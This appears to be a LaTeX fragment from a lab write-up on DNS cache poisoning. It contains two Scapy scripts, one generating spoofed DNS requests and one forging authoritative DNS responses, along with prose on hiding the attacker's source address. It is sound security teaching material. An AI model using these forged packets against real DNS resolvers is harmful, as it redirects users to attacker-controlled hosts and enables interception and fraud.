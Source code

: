 \documentclass[12pt,reqno]{amsart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{figure}[h]
\begin{lstlisting}[style=PythonStyle, firstnumber=1] 
from scapy.all import * 

# Construct the DNS header and payload
qname = 'twysw.example.com'
Qdsec = DNSQR(qname=qname)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)

# Construct the IP, UDP headers, and the entire packet 
ip = IP(dst='10.9.0.53', src='1.1.2.2')
udp = UDP(dport=53, sport=33333, chksum=0) 
request = ip/udp/dns

# Save the packet to a file in binary
with open('ip_req.bin', 'wb') as f:
  f.write(bytes(request))
\end{lstlisting} 
\caption{DNS request packet generator \code{request\_gen.py}.}
\label{lst:dnsreq}
\end{figure}
 
 In listing \ref{lst:dnsreq} we see the Scapy code for generating DNS request packets. \code{qname} is just a fixed length random name prepended to the target domain name. The fact that is fixed is important, it will enable us to change that portion of the binary using \code{memcpy} from within the C code. The destination IP is the local DNS server, which listens to port 53 as per the DNS standard. The source IP is not important, because we just want to initiate a DNS request at the server to the world, to create our attack window. In fact, it is better if we do not use the actual attacker source IP, otherwise that would be giving our location. The source port is 33333, as is the configured UDP port for the machine.
 
 
 \begin{figure}[h]
\begin{lstlisting}[style=PythonStyle, firstnumber=1]
from scapy.all import *  

# Construct the DNS header and payload
name = 'twysw.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200) # 1.2.3.4 is attacker desired IP
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, 
  qdcount=1, ancount=1, nscount=1, arcount=0,
  qd=Qdsec, an=Anssec, ns=NSsec)

# Construct the IP, UDP headers, and the entire packet 
# source can be either:
# - 199.43.135.53 (a.iana-servers.net)
# - 199.43.133.53 (b.iana-servers.net) 
udp = UDP(dport=33333, sport=53, chksum=0) 
ip = IP(dst='10.9.0.53', src='199.43.133.53') 
response = ip/udp/dns

# Save the packet to a file in binary
with open('ip_res.bin', 'wb') as f:
  f.write(bytes(response))
\end{lstlisting} 
\caption{DNS response packet generator \code{response\_gen.py}.}
\label{lst:dnsres}
\end{figure}
 
\end{document}
